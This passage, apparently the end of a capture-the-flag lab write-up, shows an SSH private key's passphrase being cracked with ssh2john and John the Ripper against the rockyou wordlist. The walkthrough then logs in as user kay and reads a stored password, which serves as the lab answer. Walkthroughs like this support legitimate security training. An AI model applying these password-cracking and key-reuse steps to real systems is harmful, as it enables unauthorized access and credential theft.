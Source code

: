Okay we have to change the permissions of our copied private key via `chmod`. But it seems that the user `kay` need a password (The private key is password protected). So we have to crack the password  with another wordlist.

For cracking I use `John The Ripper`. 

First we have to bring the private key into the correct form (John Form). We do that with

`ssh2john id_rsa.txt >decrypt.txt`

Afterwards we try to crack the password via `john` and add our wordlist from `hydra`.


```bash
┌──(admin㉿PREDATOR-01)-[/usr/share/wordlists]
└─$ john --wordlist=./rockyou.txt ~/decrypt.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 24 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (/home/admin/id_rsa)     
1g 0:00:00:00 DONE (2024-09-10 19:07) 25.00g/s 2068Kp/s 2068Kc/s 2068KC/s catana..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
And the password is `beeswax`. Lets connect `kay` via `ssh`.

`ssh kay@TARGET -i id_rsa.txt`
                                                                                                                        
We are connected. Last step, check the file: 
```bash 
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$ 
```

And we have our final answer:

Password: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$ `

### What is the final password you obtain?

Password: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$ `


## Thoughts:

It is called `Basis Pentesting`, but you have to be familiar with some tools to solve this level. 
What did we learn? 
- using `hydra` for cracking passwords
- using `john` for cracking passwords out of keys
- using `gobuster` for find directories
- using `enum4linux` for find information about SMB and Samba
- using `nmap` to find services and open ports 


Hope you liked it. 